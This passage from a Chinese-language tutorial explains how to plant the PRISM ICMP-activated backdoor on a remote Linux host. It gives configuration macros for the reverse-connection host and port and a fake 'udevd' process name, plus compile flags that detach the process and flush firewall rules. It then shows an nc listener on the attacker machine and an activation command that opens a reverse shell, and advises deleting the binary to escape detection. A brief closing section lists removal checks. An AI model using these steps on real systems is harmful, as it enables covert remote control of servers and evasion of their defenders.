 4、ICMP后门

在控制端下载脚本：git clone https://github.com/andreafabrizi/prism.git

git下来之后，还需要进行编辑操作

先编辑prism.c，修改宏定义部分：



40 #ifdef STATIC
 
41 # define REVERSE_HOST     "10.0.0.1"  //连接到主控机的IP地址
 
42 # define REVERSE_PORT     19832   //连接到主控机的端口号
 
43 # define RESPAWN_DELAY    15  //后门机尝试连接的空闲时间间隔
 
44 #else
 
45 # define ICMP_PACKET_SIZE 1024  //ICMP数据包的大小
 
46 # define ICMP_KEY         "linger"  //连接的密码
 
47 #endif
 
48
 
49 #define VERSION          "0.5"   //版本信息
 
50 #define MOTD             "PRISM v"VERSION" started\n\n# "  //后门机连接时显示的消息
 
51 #define SHELL            "/bin/sh"  //shell执行的位置
 
52 #define PROCESS_NAME     "udevd"   //创建的进程名称
交叉编译prism后门

gcc <..OPTIONS..> -Wall -s -o prism prism.c

可用的参数<OPTION>选项：

-DDETACH //后台运行

-DSTATIC //只用STATIC模式（默认是ICMP模式）

-DNORENAME //不再重命名进程名

-DIPTABLES //清除所有iptables规则表项

如：gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c

编译好之后把prism上传到远程后门主机，再运行sendPacket.py脚本，需要root权限。最好就是将prism.c文件上传到后门主机再进行编译，这样更容易成功。

iptables -F
iptables -x
iptables -L

在攻击者机器上运行nc等待后门的连接：nc -l -p 6666

使用sendPacket.py脚本（或其他数据包生成器）将激活数据包发送到后门：

./sendPacket.py 192.168.30.141 123456 192.168.30.131 6666

192.168.30.141 是运行棱镜后门的受害者机器

123456是密钥

192.168.30.131是攻击者机器地址

6666是攻击者机器端口



这种后门方式对于采用了很多限制比如限制了ssh的远程服务器来说，是比较不错的，而且prism服务端运行后会在后门一直运行，除非重启服务器。所以运行后门后删除自身文件将不容易被发现。

清除方式

因为该后门重启会失效，除非写在开机启动项里，所以首先要检查启动项有没有异常情况，比如/etc/rc.local是否有未知的启动脚本

其次，这个后门可以改变后门进程名，但是还是有进程存在，所以要查出这个未知进程，可以用工具查找，kill掉

然后，该后门是使用了icmp的ping包激活的，所以可以过滤icmp包

最后，需要设置好严格的iptables规则，这个后门可以按照攻击者的设置尝试清楚iptables规则，需要定期查看iptables规则是否正常
